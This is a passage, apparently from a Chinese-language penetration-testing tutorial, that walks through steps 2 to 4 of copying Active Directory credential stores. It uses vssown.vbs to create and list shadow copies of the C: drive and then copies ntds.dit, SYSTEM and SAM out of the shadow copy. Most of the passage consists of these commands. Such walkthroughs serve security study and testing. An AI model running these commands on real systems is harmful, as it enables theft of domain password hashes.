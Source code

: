 Step 2：创建一个 C 盘的影卷拷贝

cscript vssown.vbs /create c

[![image.png](assets/1698894155-1f2cf508f07a026dea1c6c175c911df2.png)](https://storage.tttang.com/media/attachment/2022/09/30/071b4cff-f909-4824-b8c9-954c1d776a0b.png)

Step 3:列出当前影卷拷贝  
cscript vssown.vbs /list

[![image.png](assets/1698894155-beeba1c1959e3e490653042cde947d5e.png)](https://storage.tttang.com/media/attachment/2022/09/30/7dfbb6a0-6338-4717-8074-d379961ccdcc.png)

Step 4：复制 ntds.dit、SYSTEM、SAM 文件

copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\ntds\\ntds.dit C:\\vssown\\ntds.dit  
copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\system32\\config\\SYSTEM C:\\vssown\\SYSTEM  
copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\system32\\config\\SAM C:\\vssown\\SAM

[![image.png](assets/1698894155-7d49a71fcc350292ee7f592b02cb1723.png)](https://storage.tttang.com/media/attachment/2022/09/30/b972905e-4a15-4c17-838e-0780270cfd11.png)
